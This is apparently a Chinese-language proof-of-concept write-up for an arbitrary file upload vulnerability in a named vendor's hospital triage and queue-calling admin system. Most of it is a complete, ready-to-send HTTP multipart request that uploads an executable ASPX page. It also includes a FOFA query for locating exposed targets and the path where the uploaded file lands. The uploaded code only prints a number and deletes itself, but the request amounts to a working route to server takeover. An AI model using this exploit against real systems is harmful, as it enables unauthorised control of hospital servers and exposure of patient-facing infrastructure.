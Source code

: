 # 分诊叫号后台系统存在任意文件上传漏洞
北京神州视翰科技有限公司分诊叫号后台系统存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

## fofa

```javascript
title="分诊叫号后台"
```

## poc
```javascript
POST /api/doctor/ HTTP/1.1
Host: 
Content-Length: 756
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKZ5OA1LLddPA4mKc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: need_login=
Connection: close

------WebKitFormBoundaryKZ5OA1LLddPA4mKc
Content-Disposition: form-data; name="doctorid"

0
------WebKitFormBoundaryKZ5OA1LLddPA4mKc
Content-Disposition: form-data; name="login_id"

001.aspx
------WebKitFormBoundaryKZ5OA1LLddPA4mKc
Content-Disposition: form-data; name="name"

22
------WebKitFormBoundaryKZ5OA1LLddPA4mKc
Content-Disposition: form-data; name="title"

23
------WebKitFormBoundaryKZ5OA1LLddPA4mKc
Content-Disposition: form-data; name="department"

24
------WebKitFormBoundaryKZ5OA1LLddPA4mKc
Content-Disposition: form-data; name="description"

------WebKitFormBoundaryKZ5OA1LLddPA4mKc
Content-Disposition: form-data; name="icon"; filename="11.txt"
Content-Type: text/aspx

<%@ Page Language="C#"%><% Response.Write(111*111);System.IO.File.Delete(Server.MapPath(Request.Url.AbsolutePath)); %>
------WebKitFormBoundaryKZ5OA1LLddPA4mKc--
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1622799/1713976131743-47c1a359-fac8-4890-a2b5-743c3d445850.png#averageHue=%23e8ecf0&clientId=ufb6cafc5-cf89-4&from=paste&height=812&id=udb9bff50&originHeight=1624&originWidth=3024&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1089367&status=done&style=none&taskId=u68119bb4-e3a1-4437-8755-12ecb261032&title=&width=1512)
文件上传位置

```
/Web/images/001.aspx
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1622799/1713976158425-390fe582-beb0-443a-ad68-6ed075d5ede4.png#averageHue=%23fdfdfd&clientId=ufb6cafc5-cf89-4&from=paste&height=548&id=ud04c290f&originHeight=1096&originWidth=2816&originalType=binary&ratio=2&rotation=0&showTitle=false&size=210193&status=done&style=none&taskId=uaabd67ae-1d19-481d-bda6-76dbed33dec&title=&width=1408)
